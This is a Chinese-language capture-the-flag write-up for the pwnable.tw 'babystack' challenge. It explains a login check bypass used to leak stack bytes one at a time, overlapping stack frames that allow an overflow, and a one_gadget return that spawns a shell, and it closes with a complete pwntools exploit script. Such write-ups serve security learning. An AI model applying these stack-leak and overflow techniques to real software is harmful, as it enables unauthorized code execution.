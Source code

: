 ## 检查

```
$ file babystack 
babystack: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, stripped
$ checksec babystack 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

64位程序，保护全开，去符号表

## 分析

程序本身的逻辑很简单，经典的菜单题，可以选择登陆、复制和退出

## 漏洞点

首先是登陆的地方，判断输入和密码是否一样取的是输入的长度，可以轻易以0x00开头通过，但是通过之后没有什么好处，倒是可以利用login挨个字节泄漏栈上信息，也就是one by one

然后是复制的地方，做了长度限制，但是登陆函数和复制函数的栈帧是重叠的，可以参考另一题：

[pwnable-tw-applestore-利用栈平衡控制内存/#栈平衡与计算](http://0bs3rver.space/2020/11/16/pwnable-tw-applestore-%E5%88%A9%E7%94%A8%E6%A0%88%E5%B9%B3%E8%A1%A1%E6%8E%A7%E5%88%B6%E5%86%85%E5%AD%98/#%E6%A0%88%E5%B9%B3%E8%A1%A1%E4%B8%8E%E8%AE%A1%E7%AE%97)

也就是说我们可以在复制的时候规避掉`0x3f`的限制，进而覆盖主函数的栈帧

## 利用

那么整个题目的思路也就出来了，我们可以利用one by one泄漏出栈内信息，然后构建栈完成栈溢出，最后使用one_gadget完成get shell，因为直接使用\x00无法通过最后的memcmp检验，所以还是需要爆破

使用pwndbg调试的时候给开启pie的程序高效下断点：b *$rebase(偏移)

```
b*$rebase(0xf5d)
```

需要注意的是题目给的libc和我们自己的版本并不一样

```
$ strings libc_64.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu5) stable release version 2.23, by Roland McGrath et al.
Compiled by GNU CC version 5.4.0 20160609.
	GNU Libidn by Simon Josefsson

$ strings my_ubuntu64_libc.so | grep GNU
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu11.2) stable release version 2.23, by Roland McGrath et al.
Compiled by GNU CC version 5.4.0 20160609.
	GNU Libidn by Simon Josefsson
```

所以本地和远程我们使用的one_gadget也不一样，但是这个提醒并没有什么用，因为我又跑不通远程，淦

## exp

需要注意的是题目的password写成了passowrd ...所以说还是直接复制比较好，再就是login和copy不能在后面加上\n，所以我们需要使用sendafter

```python
#!/usr/bin/env python3
from pwn import *
import sys, time

#context(arch='amd64',os='linux',log_level='debug')
#context.log_level = 'debug'

debug = 1
if debug:
	elf = ELF("./babystack")
	libc = ELF("./my_ubuntu64_libc.so")
	io = process(elf.path)
else:
	elf = ELF("./babystack")
	libc = ELF("./libc_64.so.6")
	io = remote("chall.pwnable.tw",10205)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

def leak_stack(len):
	mes = ""
	for i in range(len):
		for j in range(0x1,0x100):
			sla(">> ","1")
			sla("passowrd :",mes+chr(j)+"\x00")
			recv = ru("\n")
			if "Success" in recv:
				mes += chr(j)
				log.success("message: "+mes)
				sla(">> ","1") # logout
				break
	return mes

login = lambda pw : (sla(">> ","1"),sa("passowrd :",pw))
logout = lambda : sla(">> ","1")
copy = lambda strings : (sla(">> ","3"),sa("Copy :",strings)) 
quit = lambda : sla(">> ","2")

password = leak_stack(0x10)
print("password :"+str(password))
login("\x00"+"1"*0x47)
copy("1"*0x3f)
logout()
psd = leak_stack(0x10+0x8)
log.warn(len(psd[8:]))
libc_addr = u64(psd[8:].ljust(0x8, "\x00"))-9-libc.symbols['_IO_file_setbuf']
one_gadget = 0x45226
one_gadget_addr = libc_addr + one_gadget
login("\x00"+"1"*0x3f+password+'a'*0x18+p64(one_gadget_addr))
copy("1"*0x10)
quit()

io.interactive()

```



参考：

[pwnable-tw中的babystack](https://www.lyyl.online/2019/09/24/pwnable-tw%E4%B8%AD%E7%9A%84babystack/)

